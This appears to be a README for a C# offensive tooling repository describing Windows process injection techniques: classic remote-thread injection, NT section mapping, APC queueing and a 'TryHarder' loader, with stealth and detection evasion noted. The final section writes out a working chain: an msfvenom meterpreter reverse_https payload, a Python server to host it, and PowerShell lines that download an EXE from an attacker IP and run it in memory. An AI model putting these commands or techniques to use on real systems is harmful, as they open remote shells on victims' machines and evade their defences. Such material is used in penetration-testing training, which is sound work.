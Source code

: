 ## **NativeProcInjection.cs**

This technique demonstrates classic process injection using Native Windows API functions. It creates a remote process (usually `notepad.exe`), allocates memory in it, writes shellcode, and creates a remote thread to execute the payload.

**High-Level Steps:**
1. Launch a target process in suspended or running state (e.g., `CreateProcess`).
2. Allocate memory in the remote process using `VirtualAllocEx`.
3. Write the shellcode to the allocated memory using `WriteProcessMemory`.
4. Create a new thread in the remote process pointing to the shellcode with `CreateRemoteThread`.

## **NtMapInjection.cs**

This method utilizes NT native APIs to create a shared memory section and map it into both the local and remote process. It’s stealthier than the classic method and avoids using easily-monitored APIs like `WriteProcessMemory`.

**High-Level Steps:**
1. Create a memory section using `NtCreateSection`.
2. Map the section into the local process using `NtMapViewOfSection`.
3. Copy the shellcode into the local view.
4. Map the same section into the remote process using `NtMapViewOfSection`.
5. Create a remote thread in the target process with `CreateRemoteThread` or equivalent to execute the code.

## **NtQueueApc.cs**

This method uses Asynchronous Procedure Calls (APCs) to queue execution of shellcode in the context of a thread in a remote process. It is often used in combination with other techniques to delay execution or avoid detection.

**High-Level Steps:**
1. Open a handle to the target process and a thread within it.
2. Allocate memory in the target process and write the shellcode using `VirtualAllocEx` and `WriteProcessMemory`.
3. Use `NtQueueApcThread` to queue a call to the shellcode in the remote thread.
4. Resume the thread if it's suspended, so the APC can be delivered and executed.

## **TryHarder.cs**

Another Process Injection technique that loads the shellcode remotely.<br>
The idea of this technique is by `Sektor 7` and ported to C# by [saulgoodman](https://github.com/saulg00dmin).

Create Shellcode using msfvenom:<br>
- `msfvenom -p windows/x64/meterpreter/reverse_https LHOST=tun0 LPORT=443 -f raw EXITFUNC=thread -o shellcode.bin`

Serve the `shellcode.bin` with python server: `python3 -m http.server 80`

Convert the EXE into a byte array:<br>
- `$data = (New-Object System.Net.WebClient).DownloadData('http://192.168.45.190/Tryharder.exe')`

Load the EXE into memory:<br>
- `$assem = [System.Reflection.Assembly]::Load($data)`

Invoke its entry point:
- `$assem.EntryPoint.Invoke($null, @([string[]]@()))`

